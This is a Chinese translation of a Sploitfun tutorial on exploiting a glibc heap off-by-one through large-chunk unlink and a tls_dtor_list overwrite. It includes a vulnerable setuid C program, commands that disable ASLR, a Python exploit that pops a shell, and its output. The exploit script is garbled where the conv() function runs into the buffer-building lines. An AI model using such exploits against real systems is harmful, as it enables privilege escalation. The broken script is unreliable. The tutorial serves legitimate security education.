

CSysSec注： 本系列文章译自安全自由工作者Sploitfun的漏洞利用系列博客，从经典栈缓冲区漏洞利用堆漏洞利用，循序渐进，是初学者不可多得的好材料，本系列所有文章涉及的源码可以在这里找到。CSysSec计划在原基础上不断添加相关漏洞利用技术以及相应的Mitigation方法，欢迎推荐或自荐文章。 
转载本文请务必注明，文章出处：《[Linux(X86)漏洞利用系列-Unlink堆溢出)](http://www.csyssec.org/20170104/heap-offbyone)》与作者信息：CSysSec出品  

阅读基础:
栈内off-by-one漏洞
[深入理解glibc malloc](../Linux%20系统底层知识/深入理解glibc%20malloc.md)  

VM Setup: Fedora 20(x86)  

## 0X01 什么是off-by-one漏洞

在[这篇](http://www.csyssec.org/20161231/stackoffbyone/) 文中说过，当将源字符串拷贝到目的字符串时出现下述情况可能会发生off-by-one  

源字符串长度等于目的字符串长度  
当源字符串长度等于目的字符串长度时，单个NULL字节会被拷贝到目的字符串中。这里由于目的字符串处于堆中，单个NULL字节可以覆盖下一个chunk的头部信息,从而导致任意代码执行。  

扼要重述：在[这篇]((../Linux%20系统底层知识/深入理解glibc%20malloc.md) 文中说过，堆根据每个用户对堆内存的请求，被分为多个chunk.每个chunk有自己的chunk头部信息(由[malloc_chunk](https://github.com/sploitfun/lsploits/blob/master/glibc/malloc/malloc.c#L1108) 表示)。 结构体malloc_chunk含有以下四个域：    

1. prev_size - 若前一个chunk空闲，则prev_size域包含前一个chunk的大小信息；若前一个chunk已经被分配，则这个域包含前一个chunk的用户数据
2. size: size域含有这个已经分配的chunk。域的后3比特含有flag信息。
[PREV_INUSE(P)](https://github.com/sploitfun/lsploits/blob/master/glibc/malloc/malloc.c#L1267)- 当前一个chunk被分配时，此位被设置
[IS_MMAPPED(M)](https://github.com/sploitfun/lsploits/blob/master/glibc/malloc/malloc.c#L1274)- 当chunk被mmap了，此位被设置。
[NON_MAIN_ARENA(N)](https://github.com/sploitfun/lsploits/blob/master/glibc/malloc/malloc.c#L1283)- 当这个chunk属于一个线程arena时，此位被设置。
3. fd- 指向同一个bin中的下一个chunk
4. bk- 指向同一个bin中的前一个chunk

漏洞代码:  

``` c
//consolidate_forward.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#define SIZE 16
int main(int argc, char* argv[])
{
 int fd = open("./inp_file", O_RDONLY); /* [1] */
 if(fd == -1) {
 printf("File open error\n");
 fflush(stdout);
 exit(-1);
 }
 if(strlen(argv[1])>1020) { /* [2] */
 printf("Buffer Overflow Attempt. Exiting...\n");
 exit(-2);
 }
 char* tmp = malloc(20-4); /* [3] */
 char* p = malloc(1024-4); /* [4] */
 char* p2 = malloc(1024-4); /* [5] */
 char* p3 = malloc(1024-4); /* [6] */
 read(fd,tmp,SIZE); /* [7] */
 strcpy(p2,argv[1]); /* [8] */
 free(p); /* [9] */
}
```
编译命令:  

```
#echo 0 > /proc/sys/kernel/randomize_va_space
$gcc -o consolidate_forward consolidate_forward.c
$sudo chown root consolidate_forward
$sudo chgrp root consolidate_forward
$sudo chmod +s consolidate_forward
```
注意: 为了更好演示，已经关闭ASLR。如果你也想绕过ASLR，可以利用[这篇文章](http://www.csyssec.org/20170104/useafterfree/)提到的信息泄露漏洞或暴力破解技术 。  

注：本系列所有文章中第[N]行代码指的的代码中显示`/*[N]*/`的位置。  

上述漏洞程序的第[2]和[8]行就是堆中off-by-one溢出可能发生的地方。目的缓冲区的长度是1020，因此源缓冲区长度也是1020的话就会导致任意代码执行。  

## 0X02 如何做到任意代码执行

当单NULL字节覆盖下一个chunk(‘p3’)的chunk头部信息时就会发生任意代码执行。当1020字节的chunk(‘p2’)被单字节溢出时，是下一个chunk(‘p3’)头部大小的最小影响字节(Least Significant Byte)-(而不是prev_size的最小影响字节)被NULL字节覆盖。  

## 0X03 为什么不是prev_size的最小影响字节(LSB)被覆盖

由于需要额外的空间来存储malloc_chunk以及为了对其的目的，[checked_request2size](https://github.com/sploitfun/lsploits/blob/master/glibc/malloc/malloc.c#L1254) 将用户需求的大小转化为可用的大小(内部表示字节大小-internal representation size)。当可用大小的最后3个比特都没有被设置时会发生这种转化，这3个比特用来存储flag信息 P,M与N。  

上漏洞代码执行到malloc(1020)时，1020字节的用户需求大小被转化为((1020 + 4 + 7) & ~7) 1024字节(内部表示字节大小)。分配1020字节的chunk开销只要4字节。但对于一个分配的chunk我们却需要8字节的chunk头部信息用来存储prev_size和size信息。1024字节的chunk前8个字节用作chunk头部信息，但现在只剩下1016（1024-8）字节（而不是1020字节)用来存储用户数据。如上面说的prev_size的定义，如果前一个chunk(‘p2’)被分配，chunk(‘p3’)的prev_size域含有用户数据。chunk(‘p3’)的prev_size紧邻已经分配的chunk(‘p2’)，其含有用户数据剩下的4字节。这就是为什么size(而不是pre_size)的LSB被但NULL字节覆盖的原因了。    

堆布局:  
  

注意: 上图中的攻击者数据指的是下文中提到的”覆盖 tls_dtor_list”

现在回到我们一开始的问题  

### 如何做到任意代码执行

现在我们已经知道在off-by-one漏洞中，单NULL字节覆盖下一个chunk(‘p3’) size域的LSB。单NULL字节覆盖意味着chunk(‘p3’)的flag信息被清除了。 被覆盖的chunk(‘p2’)尽管处于已经被分配的状态，现在却变得空闲了。当在溢出的chunk (‘p2)前的(‘p’)被释放时，这种状态不一致性驱使glibc去unlink 已经处于分配状态的chunk(‘p2’)  

在[这篇](http://www.csyssec.org/20170104/heapoverflow-unlink/) 文章中，由于任何四字节的内存区域都能被写上攻击者的数据，unlink一个已经在分配状态的chunk会导致任意代码执行
！！ 在同一篇文中，我们也知道由于glibc近些年的被强化，unlink技术已经过时了！ 尤其是当“[损坏的双链表](https://github.com/sploitfun/lsploits/blob/master/glibc/malloc/malloc.c#L1414) ”这个条件成立时，任意代码执行是不可能的。  

在2014年后期， [google’s project zero team](http://googleprojectzero.blogspot.in/2014/08/the-poisoned-nul-byte-2014-edition.html) 发现一种通过unlink一个大的chunk(large chunk)的方法，可以成功绕过”损坏的双链表”条件。   

Unlink:   
``` c
#define unlink(P, BK, FD) { 
  FD = P->fd; 
  BK = P->bk;
  // Primary circular double linked list hardening - Run time check
  if (__builtin_expect (FD->bk != P || BK->fd != P, 0)) /* [1] */
   malloc_printerr (check_action, "corrupted double-linked list", P); 
  else { 
   // If we have bypassed primary circular double linked list hardening, below two lines helps us to overwrite any 4 byte memory region with arbitrary data!!
   FD->bk = BK; /* [2] */
   BK->fd = FD; /* [3] */
   if (!in_smallbin_range (P->size) 
   && __builtin_expect (P->fd_nextsize != NULL, 0)) { 
    // Secondary circular double linked list hardening - Debug assert
    assert (P->fd_nextsize->bk_nextsize == P);  /* [4] */
        assert (P->bk_nextsize->fd_nextsize == P); /* [5] */
    if (FD->fd_nextsize == NULL) { 
     if (P->fd_nextsize == P) 
      FD->fd_nextsize = FD->bk_nextsize = FD; 
     else { 
      FD->fd_nextsize = P->fd_nextsize; 
      FD->bk_nextsize = P->bk_nextsize; 
      P->fd_nextsize->bk_nextsize = FD; 
      P->bk_nextsize->fd_nextsize = FD; 
     } 
    } else { 
     // If we have bypassed secondary circular double linked list hardening, below two lines helps us to overwrite any 4 byte memory region with arbitrary data!!
     P->fd_nextsize->bk_nextsize = P->bk_nextsize; /* [6] */
     P->bk_nextsize->fd_nextsize = P->fd_nextsize; /* [7] */
    } 
   } 
  } 
}
```
在glibc malloc中，主环形双链表由malloc_chunk的fs和bk域来维护，而次环形双链表由malloc_chunk的fd_nextsize和bk_nextsize域来维护。这看起来像是损坏的双链表hardening被应用到了主环形双链表(第[1]行)和次环形双链表中(第[4],[5]行)，但次要环形双链表的hardening仅仅是一个debug assert语句(不像是主环形双链表hardening会在运行时进行检查)，它最终并不会编译到产品中(至少在fedora是这样的)。次要环形双链表的强化(hardening)（第[4],[5]行)并没有什么意义，这可以让我们在4字节的内存区域中写任何数据(第[6],[7]行)。  

任然还有一些东西要讲明白一些。我们来看看如何通过unlink一个大的chunk来做到任意代码执行的细节！ 现在攻击者已经控制住即将要被释放的大chunk，他以下方式覆盖malloc_chunk中的域：  

* fd必须指回到已经被释放的chunk地址来绕过主环形双链表的hardening
* bk也必须指回到已经被释放的chunk地址来绕过主环形双链表的hardening
* fd_nextsize 必须指向 free_got_addr -0x14
* bk_nextsize 必须指向system_addr

但第[6],[7]行需要fd_nextsize和bk_nextsize是可写的。fd_nextsize指向 free_got_addr -0x14，所以它是可写的。但bk_nextsize指向system_addr，这属于libc.so的text段区域，所以它是不可写的。要让fd_nextsize和bk_nextsize同时可写，需要覆盖tls_dtor_list  

## 0X04 覆盖tls_dtor_list
[tls_tor_list](https://github.com/sploitfun/lsploits/blob/master/glibc/stdlib/cxa_thread_atexit_impl.c#L32) 是一个线程本地变量，含有一个函数指针列表，在执行exit()时会被调用。 [__call_tls_dtors](https://github.com/sploitfun/lsploits/blob/master/glibc/stdlib/cxa_thread_atexit_impl.c#L81)()遍历tls_dtor_list并一个一个[调用](https://github.com/sploitfun/lsploits/blob/master/glibc/stdlib/cxa_thread_atexit_impl.c#L88)其中的函数！！ 所以如果我们能利用一个含有system和system_arg的堆地址覆盖tls_dtor_list，来替换[dtor_list](https://github.com/sploitfun/lsploits/blob/master/glibc/stdlib/cxa_thread_atexit_impl.c#L24)中的func和obj， system()就能被调用。    

  


现在攻击者通过以下方式覆盖即将要释放的大chunk中的malloc_chunk里面的域信息：  

* fd必须指回到已经被释放的chunk地址来绕过主环形双链表的hardening
* bk也必须指回到已经被释放的chunk地址来绕过主环形双链表的hardening
* fd_nextsize 必须指向 tls_dtor_list -0x14
* bk_nextsize 必须指向含有dtor_list元素的堆地址

让fd_nextsize变成可写的问题解决了。那是因为tls_dtor_list属于libc.so的可写段，并且通过反汇编_call_tls_dtors()，可以得到tls_dtor_list的地址是0xb7fe86d4  

由于bk_nextsize指向堆地址，让它变成可写的问题也解决了。  

利用所有这些信息，我们可以写个漏洞利用程序来攻击’consolidate_forward’了！！  

漏洞利用代码:  

``` python
#exp_try.py
#!/usr/bin/env python
import struct
from subprocess import call
fd = 0x0804b418
bk = 0x0804b418
fd_nextsize = 0xb7fe86c0
bk_nextsize = 0x804b430
system = 0x4e0a86e0
sh = 0x80482ce
#endianess convertion
def conv(num):
 return struct.pack("<I",num(fd)
buf += conv(bk)
buf += conv(fd_nextsize)
buf += conv(bk_nextsize)
buf += conv(system)
buf += conv(sh)
buf += "A" * 996
print "Calling vulnerable program"
call(["./consolidate_forward", buf])
```
执行上述漏洞利用代码，并不能给我们root shell。它只能提供运行在我们自己权限上的bash shell。  

``` bash
$ python -c 'print "A"*16' > inp_file
$ python exp_try.py 
Calling vulnerable program
sh-4.2$ id
uid=1000(sploitfun) gid=1000(sploitfun) groups=1000(sploitfun),10(wheel) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
sh-4.2$ exit
exit
$
```

## 0X05 为什么没能获取root shell

当uid!=euid时，/bin/bash会丢弃权限。我们的二进制文件’consolidate _forward’的真实uid=1000，有效uid=0。 由于真实uid!=有效uid，因此当system() 被调用时，bash会丢弃权限。为了解决这个问题，我们需要在执行system()之前调用setuid(0)，由于_call_tls_dtors遍历tls_dtor_list并一个一个调用其中的函数，我们需要链接setuid()和system()  